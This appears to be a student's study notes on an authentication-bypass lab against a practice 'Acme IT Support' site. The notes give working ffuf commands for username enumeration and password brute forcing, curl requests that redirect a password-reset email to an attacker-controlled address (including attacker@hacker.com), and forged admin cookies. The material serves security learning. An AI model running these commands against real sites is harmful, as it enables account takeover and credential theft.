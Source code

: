 # Authentication Bypass
## Username Enumeration
* Creating a list of valid usernames is helpful exercise when trying to find authentication vulnerabilities.
* Website error messages are great resource for collating information to build list of valid usernames. 

1. Go to the fake IT Support website’s signup page.
2. Use the form to create a new user account.
3. Enter the username 'admin' and fill in the other form fields with fake information.
4. This produces an 'An account with this username already exists' error.
5. Use the existence of the error message to produce a list of valid usernames already signed up on the system by using ffuf.
```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```
   * `-w` selects wordlist file.
   * `-X` specifies request method.
     * GET request by default.
   * `-d` specifies data to be sent.
     * `username` set to value of "FUZZ".
     * "FUZZ" keyword signifies where contents from wordlist will be inserted in request.
  * `-H` adds additional headers to the request.
    * `Content-Type` is set so the web server knows that form data is being sent.
  * `-u` specifies URL that requests are made to.
  * `-mr` is text on the page to validate that a valid username has been found.

## Brute Force
* Automated process that tries a list of commonly used passwords against either a single username or a list of usernames.

> 1.Brute force the fake IT Support website’s signup page.
> 2. Run `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`
> * Make sure the terminal is in the same directory as the `valid_usernames.txt` file when running the `ffuf` command.
>  * `FUZZ` keyword now needs to specify custom keywords because multiple wordlists are being used.
>    * `W1` for the list of valid usernames.
>    * `W2` for the list of passwords to try.
> * `-w` specifies the multiple wordlists but are separated with a comma.
> * `-fc` used to check for an HTTP status code other than `200` (a positive match).

## Logic Flaws
* Occurs when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.
* These can exist in any area of a website including authentication processes.

> 1. Examine the 'Reset Password' function of the fake IT Support website.
> 2. This has a form asking for the email address associated with the account on which to perform the password reset.
> 3. An 'Account not found from supplied email address' error message is received if an invalid email is entered.
>    * Use the valid email address `robert@acmeitsupport.thm`.
> 5. The second stage of the reset form asks for the username associated with the login email address.
>    * Enter `robert` as the username.
> 7. Press the 'Check Username' button.
> 8. Message confirms that a password reset email has been sent to `robert@acmeitsupport.thm`.
>    * Username is submitted in a `POST` field to the web server and mail address is sent in the query string request as a `GET` field.
> 11. Manually make a request to the web server: `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`
>     * `-H` adds an additional header to the request.
>     * `Content-Type` set to `application/x-www-form-urlencoded`.
>        * This lets the web server know that form data is being sent so it properly understands the request.
> 16. The user account is retrieved using the query string in this application.
> 17. However, the password reset email is sent using the data found in the `$_REQUEST` PHP variable.
>     * `$_REQUEST` is an array that contains data received from the query string and `POST` data.
>     * Application logic for `$_REQUEST` favours `POST` data fields over the query string if the same key name is used for both the query string and 'POST' data
>     * Because of this where the password reset email gets delivered to can be controlled if another `email` parameter is added to the 'POST' form:
>       * `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`

> 1. Create another account in the customer section.
>    * Doing so provides a unique email address that can be used to create support tickets.
> 3. The email address is in the format of `{username}@customer.acmeitsupport.thm`.
> 4. Rerun the curl Request but with the new `@acmeitsupport.thm` in the `email` field:
> 5. `curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`
> 6. This will create a ticket on the new account which contains a link to log in as Robert.

## Cookie Tampering
* Examining and editing cookies set by the web server during an online session can have multiple outcomes:
  * Unauthenticated access.
  * Access to another user's account.
  * Elevated privileges.
### Plain Text
* The contents of some cookies can be in plain text, and it is obvious what they do.
* Sample cookies set after a successful login may be `Set-Cookie: logged_in=true; Max-Age=3600; Path=/` and `Set-Cookie: admin=false; Max-Age=3600; Path=/`.
  * One cookie (`logged_in`) appears to control whether the user is currently logged in or not.
  * The other (`admin`) controls whether the visitor has admin privileges.
  * The changing of privileges should be possible if the contents of the cookies were to be changed and a new Request made.

> 1. Request the target page: `curl http://MACHINE_IP/cookie-test`.
>    * This returns a 'Not Logged In' message.
> 3. Send another Request with the `logged_in` cookie set to `true` and the `admin` cookie set to `false`: `curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test`.
>    * This returns a 'Logged In As A User' message.
> 6. Send another Request setting both the `logged_in` and `admin` cookie to `true`: `curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test`.
>    * This returns a 'Logged In As An Admin' message.

### Hashing
* Cookie values can look like a long string of random characters (hashes).
* These are an irreversible representation of the original text.
  
| Original String | Hash Method | Output
| --- | --- | ---
| 1 | md5 | c4ca4238a0b923820dcc509a6f75849b
| 1 | sha-256 | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
| 1 | sha-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a
| 1 | sha1 | 356a192b7913b04c54574d18c28d46e6395428ab

* Hash output from the same input string can significantly differ depending on the hash method in use.
* Same output is produced every time even though the hash is irreversible.
  * This is helpful for testers as services such as [https://crackstation.net/(]https://crackstation.net/) keep databases of billions of hashes and their original strings.

### Encoding
* Similar to hashing in that it creates a seemingly random string of text although encoding is **reversible**.
* Allows conversion of binary data into human readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.
* **Base32** converts binary data to the characters `A-Z` and `2-7`.
* **Base64** converts using the characters `a-z`, `A-Z`, `0-9`, `+`, `/` and `=`for padding.

> * Example of data that is set by a web server upon logging in: `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
> * Decoding the base64 string results in a value of `{"id":1,"admin": false}`.
>   * This can then be encoded back to base64 after setting the admin value to true to provide admin access.
